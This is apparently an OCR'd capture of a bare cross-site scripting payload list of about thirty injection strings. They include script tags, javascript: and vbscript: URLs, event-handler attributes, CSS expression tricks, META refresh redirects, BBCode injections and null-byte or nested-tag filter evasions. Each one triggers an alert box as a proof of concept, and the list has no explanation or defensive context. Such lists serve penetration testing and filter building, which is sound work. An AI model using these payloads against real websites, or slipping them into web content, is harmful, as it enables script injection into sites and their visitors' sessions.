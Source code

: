 <img src="javascript:alert('XSS')">

<script language="JavaScript">alert('XSS')</script>

[url=javascript:alert('XSS');]click me[/url]

<body onunload="javascript:alert('XSS');">

<body onLoad="alert('XSS');"

[color=red' onmouseover="alert('xss')"]mouse over[/color]

"/></a></><img src=1.gif onerror=alert(1)>

window.alert("Bonjour !");

<div

style="x:expression((window.r==1)?'':eval('r=1;alert(String.fromCharCode(88,83,83));'))">

<iframe<?php echo chr(11)?> onload=alert('XSS')></iframe>

"><script alert(String.fromCharCode(88,83,83))</script>

'>><marquee><h1>XSS</h1></marquee>

'">><script>alert('XSS')</script>

'">><marquee><h1>XSS</h1></marquee>

<META HTTP-EQUIV=\"refresh\" CONTENT=\"0;url=javascript:alert('XSS');\">

<META HTTP-EQUIV=\"refresh\" CONTENT=\"0;
URL=http://;URL=javascript:alert('XSS');\">

<script>var var = 1; alert(var)</script>

<STYLE type="text/css">BODY{background:url("javascript:alert('XSS')")}</STYLE>

<?='<SCRIPT>alert("XSS")</SCRIPT>'?>

<IMG SRC='vbscript:msgbox(\"XSS\")'>

" onfocus=alert(document.domain) "> <"

<FRAMESET><FRAME SRC=\"javascript:alert('XSS');\"></FRAMESET>

<STYLE>li {list-style-image: url(\"javascript:alert('XSS')\");}</STYLE><UL><LI>XSS

perl -e 'print \"<SCR\0IPT>alert(\"XSS\")</SCR\0IPT>\";' > out

perl -e 'print \"<IMG SRC=java\0script:alert(\"XSS\")>\";' > out

<br size=\"&{alert('XSS')}\">

<scrscriptipt>alert(1)</scrscriptipt>

</br style=a:expression(alert())>

</script><script>alert(1)</script>

"><BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>
